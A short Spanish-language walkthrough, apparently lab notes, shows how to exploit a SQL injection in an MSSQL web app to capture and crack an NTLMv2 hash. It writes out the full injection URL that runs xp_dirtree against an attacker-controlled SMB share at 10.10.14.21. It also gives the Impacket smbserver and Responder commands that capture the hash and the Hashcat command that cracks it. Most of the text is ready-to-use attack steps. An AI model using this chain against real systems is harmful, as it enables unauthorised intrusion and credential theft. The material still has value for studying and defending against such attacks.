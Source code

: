 # Explotación de SQL Injection en MSSQL para Obtención de Hash NTLMv2 mediante xp_dirtree

Este ataque aprovecha una vulnerabilidad de **SQL Injection** en MSSQL para realizar una autenticación SMB a un servidor local, lo que nos permite capturar un hash NTLMv2 del usuario. Posteriormente, el hash puede ser crackeado por fuerza bruta.

## Procedimiento

### 1. Verificar Vulnerabilidad SQL Injection

Identificar un parámetro vulnerable a SQL Injection en el servidor web, como por ejemplo:

```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=36
```

### 2. Utilizar `xp_dirtree` para Intentar Autenticación SMB

Ejecutar la siguiente inyección SQL para concatenar la ejecución de `xp_dirtree` y realizar un intento de autenticación SMB:

```sql
EXEC master..xp_dirtree '\\10.10.14.21\smbserver\'
```

Donde `10.10.14.21` es nuestra IP local y `smbserver` es el recurso compartido en el servidor SMB.

### 3. Payload SQL Injection

El payload completo de SQL Injection sería:

```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=36; EXEC master..xp_dirtree '\\10.10.14.21\smbserver\'; --
```

### 4. Levantar un Servidor SMB con Impacket

Levantar un servidor SMB en nuestra máquina local para capturar la autenticación utilizando Impacket:

```bash
impacket-smbserver.py smbserver /path/to/share -smb2support
```

### 5. Capturar el Hash NTLMv2

Usar **Responder** para capturar el hash NTLMv2 de la autenticación:

```bash
responder -I eth0
```

### 6. Crackear el Hash NTLMv2

Usar **Hashcat** para crackear el hash NTLMv2 capturado:

```bash
hashcat -m 5600 hash.txt wordlist.txt
```

Este ataque permite la obtención de credenciales mediante una **SQL Injection** y la interceptación de autenticaciones SMB.
